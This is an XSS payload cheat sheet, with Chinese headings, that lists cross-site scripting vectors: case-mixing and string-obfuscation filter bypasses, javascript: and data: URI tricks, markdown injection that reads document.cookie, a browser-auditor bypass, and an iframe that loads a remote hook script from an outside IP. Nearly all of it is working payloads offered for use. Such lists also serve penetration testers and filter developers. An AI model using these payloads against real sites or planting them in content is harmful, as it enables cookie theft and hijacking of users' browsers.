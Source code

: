 Payload
================================

常用
---------------------------------------------------

- ``<script>alert(/xss/)</script>``
- ``<svg onload=alert(document.domain)>``
- ``<img src=document.domain onerror=alert(document.domain)>``
- ``<M onmouseover=alert(document.domain)>M``
- ``<marquee onscroll=alert(document.domain)>``
- ``<a href=javascript:alert(document.domain)>M</a>``
- ``<body onload=alert(document.domain)>``
- ``<details open ontoggle=alert(document.domain)>``
- ``<embed src=javascript:alert(document.domain)>``

大小写绕过
---------------------------------------------------

- ``<script>alert(1)</script>``
- ``<sCrIpT>alert(1)</sCrIpT>``
- ``<ScRiPt>alert(1)</ScRiPt>``
- ``<sCrIpT>alert(1)</ScRiPt>``
- ``<ScRiPt>alert(1)</sCrIpT>``
- ``<img src=1 onerror=alert(1)>``
- ``<iMg src=1 oNeRrOr=alert(1)>``
- ``<ImG src=1 OnErRoR=alert(1)>``
- ``<img src=1 onerror="alert(&quot;M&quot;)">``

- ``<marquee onscroll=alert(1)>``
- ``<mArQuEe OnScRoLl=alert(1)>``
- ``<MaRqUeE oNsCrOlL=alert(1)>``

各种alert
---------------------------------------------------

- ``<script>alert(1)</script>``
- ``<script>confirm(1)</script>``
- ``<script>prompt(1)</script>``
- ``<script>alert('1')</script>``
- ``<script>alert("1")</script>``
- ``<script>alert`1`</script>``
- ``<script>alert(1)</script>``
- ``<script>alert(1)</script>``
- ``<script>(alert)(1)</script>``
- ``<script>a=alert,a(1)</script>``
- ``<script>[1].find(alert)</script>``
- ``<script>top["al"+"ert"](1)</script>``
- ``<script>top["a"+"l"+"e"+"r"+"t"](1)</script>``
- ``<script>top[/al/.source+/ert/.source](1)</script>``
- ``<script>top[/a/.source+/l/.source+/e/.source+/r/.source+/t/.source](1)</script>``

伪协议
---------------------------------------------------

- ``<a href=javascript:/0/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/00/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/000/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/M/,alert(%22M%22)>M</a>``


Chrome XSS auditor bypass
---------------------------------------------------

- ``?param=https://&param=@z.exeye.io/import%20rel=import%3E``
- ``<base href=javascript:/M/><a href=,alert(1)>M</a>``
- ``<base href=javascript:/M/><iframe src=,alert(1)></iframe>``

长度限制
---------------------------------------------------

:: 

    <script>s+="l"</script>
    \...
    <script>eval(s)</script>

jquery sourceMappingURL
---------------------------------------------------
    ``</textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>``

图片名
---------------------------------------------------
    ``"><img src=x onerror=alert(document.cookie)>.gif``

过期的payload
---------------------------------------------------
- src=javascript:alert基本不可以用
- css expression特性只在旧版本ie可用

css
---------------------------------------------------

::

    <div style="background-image:url(javascript:alert(/xss/))">
    <STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>


markdown
---------------------------------------------------

::

    [a](javascript:prompt(document.cookie))
    [a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
    <&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
    ![a'"`onerror=prompt(document.cookie)](x)
    [notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
    [a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
    ![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)


iframe
---------------------------------------------------

::

    <iframe onload='
        var sc   = document.createElement("scr" + "ipt");
        sc.type  = "text/javascr" + "ipt";
        sc.src   = "http://1.2.3.4/js/hook.js";
        document.body.appendChild(sc);
        '
    />

- ``<iframe src=javascript:alert(1)></iframe>``
- ``<iframe src="data:text/html,<iframe src=javascript:alert('M')></iframe>"></iframe>``
- ``<iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+></iframe>``
- ``<iframe srcdoc=<svg/o&#x6E;load&equals;alert&lpar;1)&gt;></iframe>``
- ``<iframe src=https://baidu.com width=1366 height=768></iframe>``
- ``<iframe src=javascript:alert(1) width=1366 height=768></iframe``

form
---------------------------------------------------

- ``<form action=javascript:alert(1)><input type=submit>``
- ``<form><button formaction=javascript:alert(1)>M``
- ``<form><input formaction=javascript:alert(1) type=submit value=M>``
- ``<form><input formaction=javascript:alert(1) type=image value=M>``
- ``<form><input formaction=javascript:alert(1) type=image src=1>``

meta
---------------------------------------------------

``<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">``

